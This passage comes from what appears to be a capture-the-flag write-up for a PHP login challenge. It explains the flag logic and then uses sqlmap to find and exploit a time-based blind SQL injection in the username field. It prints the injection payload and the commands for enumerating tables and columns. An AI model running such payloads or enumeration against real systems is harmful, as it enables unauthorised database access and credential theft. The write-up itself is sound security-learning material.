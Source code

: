 ```php
        }
    } else {
        $msg = "Invalid username or password";
    }
}
```
{% endcode %}

So the `$flag` will be appended to the `$password` if we provide the correct `$magic` value as a GET parameter, e.g. http://login.chal.imaginaryctf.org/?aabbccdd11223344

As the `$msg` indicates, logging in as the admin will not provide the flag. It will give us the `$magic` value we need but we'll still need a way to recover the flag.

## Solution

I go straight for `sqlmap`, feeding the POST login request as a file.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch
```
{% endcode %}

We quickly find our vuln.

{% code overflow="wrap" %}
```bash
Parameter: username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: username=admin' AND 7431=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- bqUp&password=admin
```
{% endcode %}

Let's exploit it to get the admin's password, then we can login and get the magic value! Start off finding the tables.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch --tables
+-------+
| users |
+-------+
```
{% endcode %}

Now we can use `--columns` to narrow it down further.

{% code overflow="wrap" %}
```bash
sqlmap -r new.req --batch -T users --columns
```
{% endcode %}
